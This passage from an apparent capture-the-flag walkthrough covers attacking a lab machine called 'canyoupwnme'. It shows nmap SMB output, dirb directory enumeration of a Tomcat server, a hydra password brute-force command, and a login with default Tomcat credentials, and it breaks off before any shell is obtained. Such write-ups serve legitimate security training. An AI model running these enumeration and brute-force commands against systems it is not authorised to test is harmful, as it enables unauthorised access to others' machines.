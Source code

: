 ```
|   Domain name:
|   FQDN: canyoupwnme
|_  System time: 2017-09-26T15:07:36+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

```
Just a spoiler there are several ways to get a shell on this box. I'll show you below. There are several http ports open.
We shall enumerate all of them http ports using dirb.
```
# dirb http://192.168.175.135
```

This doesn't give much

## Low privilege shell Method One: Tomcat

Navigating to http://192.168.175.135:8080 shows that its running a tomcat server. We'll bruteforce for any hidden directories or simply try `/manager` as its common on tomcat


```
# dirb http://192.168.175.135:8080
...
URL_BASE: http://192.168.175.135:8080/
---- Scanning URL: http://192.168.175.135:8080/ ----
==> DIRECTORY: http://192.168.175.135:8080/docs/
==> DIRECTORY: http://192.168.175.135:8080/examples/
==> DIRECTORY: http://192.168.175.135:8080/host-manager/
+ http://192.168.175.135:8080/index.html (CODE:200|SIZE:1895)
==> DIRECTORY: http://192.168.175.135:8080/manager/
==> DIRECTORY: http://192.168.175.135:8080/META-INF/
...
```
... and what do you know
Going to the manager link
`http://192.168.175.135:8080/manager`
asks for a password. We do have a file that has a passwords for Tomcat servers. We try some default passwords. If not we can try to brute-force using hydra;

```
# hydra -L /root/vulnhub/stapler/realusers -P /root/vulnhub/stapler/realusers -e nsr -t 10 192.168.109.141 ssh

```

We'll use
username: tomcat
password:tomcat
